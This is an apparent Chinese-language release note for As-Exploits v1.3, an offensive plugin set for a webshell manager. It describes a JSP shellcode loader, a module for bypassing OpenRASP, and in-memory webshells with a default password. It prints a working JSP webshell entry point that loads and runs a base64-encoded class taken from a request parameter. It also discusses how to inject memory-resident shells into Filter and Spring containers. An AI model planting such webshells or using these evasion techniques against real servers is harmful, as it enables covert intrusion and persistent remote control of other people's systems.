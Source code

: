 # As-Exploits v1.3更新


<meta name="referrer" content="no-referrer" />

## 更新主要内容

### v 1.3 (2021/5/14)

- equals支持数组传参方式，兼容各种容器
- jsp新增 ShellCode加载器模块，内置两种分别基于jna跟java agent的shellcode加载方式

- jsp新增 Bypass OpenRASP 模块，thx@Godzilla
- JarLoader模块 新增手动上传方式，解决因Tomcat最大POST长度为2m导致无法加载内存Jar的问题

- reGeorg内存马改为更稳定的neo-reGerog，默认密码：asexploits
- 冰蝎内存马支持3.7，去除pageContext依赖，兼容Spring等容器

- 各模块兼容JDK5

挑几个重点的说说

## Shell入口参数支持数组形式

Shell入口参数即下面new Object[]{request,response}的部分。

```
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(new Object[]{request,response});
    }
%>
```

至于为什么要改这个玩意要从内存马的兼容说起。



除了由于写法问题而导致的各种乱七八糟的问题以外，连接内存马的一个主要问题是冰蝎在入口处采用了pageContext这个类来获取request response session对象。但是以filter型内存马为例，doFilter中三个参数分别是ServletRequest，ServletResponse，FilterChain，并不存在pageContext这个东西，并且在SpringBoot这种容器里根本没有pageContext这个类。

于是就有跟多师傅提出了自己的解决办法，大体分为三种：

1. 自己声明一个pageContext类，在里面实现对应的request跟response的getter setter。[冰蝎改造之不改动客户端=>内存马](https://mp.weixin.qq.com/s/r4cU84fASjflHrp-pE-ybg)。
2. 改写冰蝎的入口为request+response，不再采用pageContext作为入口。但是弊端就是不能再用equals了，要重新写一个方法用反射调用。[冰蝎改造之适配基于tomcat Filter的无文件webshell](https://xz.aliyun.com/t/7899)

1. 采用蚁剑原来的Custom模式，把恶意函数直接通过字节码打进去，然后通过方法名调用。不过由于直接编译恶意函数的字节码较大会超过最大长度限制，一般要先写入目标然后配合URLClassLoader才能使用。[使用WebLogic CVE-2020-2883配合Shiro rememberMe反序列化一键注入蚁剑shell](https://xz.aliyun.com/t/8202)

以上的这些方法可以是可以，但是不够优雅。
